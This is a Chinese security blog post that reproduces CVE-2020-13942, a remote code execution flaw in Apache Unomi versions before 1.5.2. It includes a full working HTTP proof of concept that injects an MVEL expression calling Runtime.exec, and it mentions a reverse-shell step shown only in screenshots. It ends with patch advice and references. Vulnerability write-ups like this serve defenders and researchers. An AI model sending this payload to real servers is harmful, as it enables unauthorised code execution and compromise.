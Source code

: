 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fQSRXk9FilS4ImUOH5lvuQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfecDgjrIBicYkuA0gw95KAEltONkgMjqFryHPTyQSuz7wk0RRxD1K03jZUEdELcO8G8DAH4rrAxng/640?wx_fmt=png)

CVE -2020-13942 (Apache Unomi 远程代码执行漏洞)

一、漏洞描述：

Apache Unomi 是一个 Java 开源客户数据平台，这是一个 Java 服务器，旨在管理客户，潜在顾客和访问者的数据，并帮助个性化客户体验。Unomi 可用于在非常不同的系统（例如 CMS，CRM，问题跟踪器，本机移动应用程序等）中集成个性化和配置文件管理。

在 Apache Unomi 1.5.1 版本之前，攻击者可以通过精心构造的 MVEL 或 ONGl 表达式来发送恶意请求，使得 Unomi 服务器执行任意代码，漏洞对应编号为 CVE-2020-11975，而 CVE-2020-13942 漏洞是对 CVE-2020-11975 漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，在服务器执行任意代码。

二、影响版本：

Apache Unomi < 1.5.2

三、漏洞复现：

访问页面样式  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfecDgjrIBicYkuA0gw95KAEOHpKib4ewvzYmOTeaalVgJRK4xDw7BClwDznOT4p3QERCMDjq4nzic4A/640?wx_fmt=png)

POC：

```
POST /context.json HTTP/1.1
Host: localhost:8181
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Content-Length: 486

{
    "filters": [
        {
            "id": "boom",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"gnome-calculator\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "boom"
}
```

```
抓包poc执行：
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfecDgjrIBicYkuA0gw95KAE9QiaPzhHSkNlUxWxVYibyofZaOLC8xsJlQowP70xy2q4ykrR4plyusng/640?wx_fmt=png)

查看 DNSlog 记录：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfecDgjrIBicYkuA0gw95KAEybnjsVY5jZckYU54GibckT6s8x49PZqniajHUVRuBbicHbIxeGBBlNoPA/640?wx_fmt=png)

尝试反弹 shell：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfecDgjrIBicYkuA0gw95KAE5q7A6TA0GTfb5966ITSXn9H5UiaoibMfZdXBIHGoU1Eh7OOAmbU68DBg/640?wx_fmt=png)

执行反弹 shell 命令脚本：  

获取 shell

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfecDgjrIBicYkuA0gw95KAE6rj93l5hibtttg31hPb1nRSu0DkFMwcGpB380jqDwNib9iat7K2gNvxoQ/640?wx_fmt=png)

四、修复方案

1、尽可能避免将用户数据放入表达式解释器中。

2、目前厂商已发布最新版本，请受影响用户及时下载并更新至最新版本。官方链接如下：

https://unomi.apache.org/download.html

参考：

https://nosec.org/home/detail/4611.html

http://hnyongxu.com/index/SecurityIncidents/137.html

https://mp.weixin.qq.com/s/GebQxERJCmULLuRVRXsnYQ（阿乐）

https://github.com/lp008/CVE-2020-13942

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)